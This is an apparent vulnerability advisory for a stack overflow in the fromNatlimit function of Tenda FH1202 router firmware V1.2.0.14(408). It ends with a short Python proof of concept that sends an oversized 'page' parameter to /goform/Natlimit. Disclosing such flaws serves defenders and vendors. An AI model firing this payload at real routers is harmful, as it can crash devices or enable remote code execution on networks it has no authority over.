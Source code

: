 # Tenda FH1202 fromNatlimit
### Overview
vendor: Tenda

product: FH1202

version: V1.2.0.14(408)

type: Stack Overflow
### Vulnerability Description
Tenda FH1202 V1.2.0.14(408) were discovered to contain a stack overflow via the page parameter in the fromNatlimit function.
### Vulnerability details
In function fromNatlimit line 10, it reads in a user-provided parameter `page`, and the variable is passed to the `sprintf` function without any length check, which may overflow the stack-based buffer `s`. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.

![](images/4.png)

### POC
```python
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/Natlimit"

data = {
    "page": "a" * 1000
}

response = requests.post(url, data=data)
print(response.text)
```

![](images/6.png)
